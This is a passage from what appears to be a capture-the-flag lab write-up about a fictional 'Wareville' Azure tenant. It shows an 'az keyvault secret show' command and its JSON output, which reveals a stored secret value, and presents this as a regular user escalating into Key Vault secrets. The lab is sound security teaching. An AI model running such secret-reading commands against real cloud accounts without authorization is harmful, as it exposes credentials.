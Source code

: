 After executing the two previous commands, we confirmed that the **Reader** role allows us to view the key vault metadata, specifically the list of key vaults and secrets. 

Now, the only thing left to confirm is whether the current user can access the contents of the discovered secret with the **Key Vault Secrets User** role. This can be done via the following command:
```bash
az keyvault secret show --vault-name warevillesecrets --name aoc2024
```
**Output**:
```bash
{
  "attributes": {
    "created": "2024-10-14T20:22:20+00:00",
    "enabled": true,
    "expires": null,
    "notBefore": null,
    "recoverableDays": 90,
    "recoveryLevel": "Recoverable+Purgeable",
    "updated": "2024-10-14T20:22:20+00:00"
  },
  "contentType": null,
  "id": "https://warevillesecrets.vault.azure.net/secrets/aoc2024/7f6bf431a6a94165bbead372bca28ab4",
  "kid": null,
  "managed": null,
  "name": "aoc2024",
  "tags": {},
  "value": "WhereIsMyMind1999"
}
```
McSkidy had confirmed her nightmare that a regular user could escalate their way into the secrets of Wareville.